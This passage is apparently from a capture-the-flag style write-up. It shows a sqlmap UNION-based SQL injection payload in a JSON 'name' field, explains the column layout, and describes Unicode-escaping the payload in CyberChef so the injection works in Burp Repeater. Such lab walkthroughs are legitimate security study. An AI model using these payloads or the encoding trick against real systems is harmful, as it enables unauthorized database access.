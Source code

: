 

        Type: UNION query
        Title: Generic UNION query (NULL) - 5 columns
        Payload: {"name":"test' UNION ALL SELECT 58,58,58,CHAR(113)+CHAR(112)+CHAR(122)+CHAR(107)+CHAR(113)+CHAR(68)+CHAR(105)+CHAR(69)+CHAR(119)+CHAR(71)+CHAR(98)+CHAR(76)+CHAR(83)+CHAR(102)+CHAR(68)+CHAR(114)+CHAR(73)+CHAR(109)+CHAR(73)+CHAR(98)+CHAR(101)+CHAR(116)+CHAR(99)+CHAR(70)+CHAR(80)+CHAR(103)+CHAR(101)+CHAR(86)+CHAR(113)+CHAR(73)+CHAR(82)+CHAR(103)+CHAR(90)+CHAR(115)+CHAR(114)+CHAR(76)+CHAR(73)+CHAR(77)+CHAR(105)+CHAR(103)+CHAR(73)+CHAR(71)+CHAR(67)+CHAR(83)+CHAR(111)+CHAR(113)+CHAR(98)+CHAR(120)+CHAR(98)+CHAR(113),58-- gxQm"}



If I look at that query, it's clearly putting 58 into columns 1, 2, 3,
and 5, and then some long string in column 4.

There's also this warning:



    [WARNING] changes made by tampering scripts are not included in shown payload content(s)



The easiest place I found to work was
[CyberChef](https://gchq.github.io/CyberChef/), where I could use the
Escape Unicode Characters recipe, and then just update the input and
copy out the result:

![](/img/image-20200331063716896.png)

Throwing that into Repeater, the injection works:
